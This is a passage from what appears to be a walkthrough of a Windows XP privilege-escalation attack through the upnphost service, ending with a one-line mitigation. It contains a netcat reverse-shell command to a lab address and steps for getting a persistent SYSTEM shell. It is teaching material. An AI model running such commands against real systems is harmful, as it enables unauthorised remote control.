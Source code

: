 
   Next, prepare a payload to send once our connection to the first listener on port 4444 is established. We can simply copy the payload we added in the binary path from our upnphost service, and change the port to the port of our 2nd listener.

      C:\nc.exe -nv 192.168.0.2 4445 -e C:\WINDOWS\System32\cmd.exe							
    							

   Finally we're ready to get a steady SYSTEM shell. Start the upnphost service again, a new connection will be established to our listener on port 4444. Once this shell is open, paste your payload we just created for a new connection to our listener on port 4445 and execute it. When we now check our listener in TAB 2, we will have a steady SYSTEM shell that will not close after a while.
   
   ### How to protect against this exploit

   #### Upgrade to Windows XP SP2 or higher.

